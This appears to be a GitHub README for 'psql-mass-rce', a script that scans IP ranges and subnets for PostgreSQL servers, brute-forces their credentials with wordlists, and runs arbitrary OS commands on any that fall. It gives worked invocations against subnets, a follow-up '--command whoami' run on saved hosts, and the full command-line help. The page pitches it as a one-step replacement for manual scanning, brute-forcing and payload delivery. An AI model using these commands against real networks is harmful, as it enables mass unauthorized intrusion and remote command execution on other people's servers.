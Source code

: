 Conviniently invoke RCE on PostgreSQL servers in network
=======

How does it work?
--------
Few examples to give you an idea:   

| Example | Comment |
|---------|---------|
| `./psql-mass-rce.py 10.1.1.10 192.168.0.100-150 --port 5433` | Accepts any number of any targets |
| `./psql-mass-rce.py 10.1.1.1/30 ./psql.gnmap --passfile rockyou.txt` | Accepts IP subnets and .gnmap files |
| `./psql-mass-rce.py -iL ./targets.txt --userfile users.txt` | Load IP[:port] from local file (nmap-alike) |


Scripts does the following:
1. Checks if port is open
2. Bruteforces credentials (using built-in dictionary or user files)
3. Determines PostgreSQL version and OS
4. Executes RCE if database user has enough rights

Live hosts with good credentials are saved to session file. After reconnaissance you may want to run RCE on those:   
`./psql-mass-rce.py --saved --command 'whoami'`   


Installation:
--------
`pip3 install -r requirements.txt`


Which PostgreSQL versions can give me RCE?
--------
PostgreSQL verions 9 and 10 (version 8 is in development).


Any zero-days inside?
--------
Not yet. [Technique](http://dsrbr.blogspot.ru/2015/04/os-command-execution-in-postgresql-93.html) was published almost 3 years ago.


Will it save my time?
--------
Definately yes.

| Before 	| After 	|
|--------	|-------	|
| 1. run nmap for port scanning<br/>2. run patator/hydra to bruteforce credentials<br/>3. run psql binary to connect and check version<br/>4. copy-paste payloads, or launch MSF `postgres_payload` manually at each host.     | ./psql-mass-rce.py 10.1.1.0/24 |


Full help:
--------
```
psql-mass-rce v0.1

Usage: psql-mass-rce.py targets [-iL TARGETS_FILE] [--userfile USERFILE]
               [--passfile PASSFILE] [--command COMMAND] [--port PORT]
               [--saved]

Necessary arguments:
  targets              Accepts any number of these: IP, subnet, or .gnmap file

Optional arguments:
  -h, --help           show this help message and exit
  -iL TARGETS_FILE     Load IP[:port] targets from local file
  --userfile USERFILE  File with a list of users
  --passfile PASSFILE  File with a list of passwords
  --command COMMAND    Command to execute on a target machine
  --port PORT          Port to connect
  --saved              Work on targets from saved session file
```
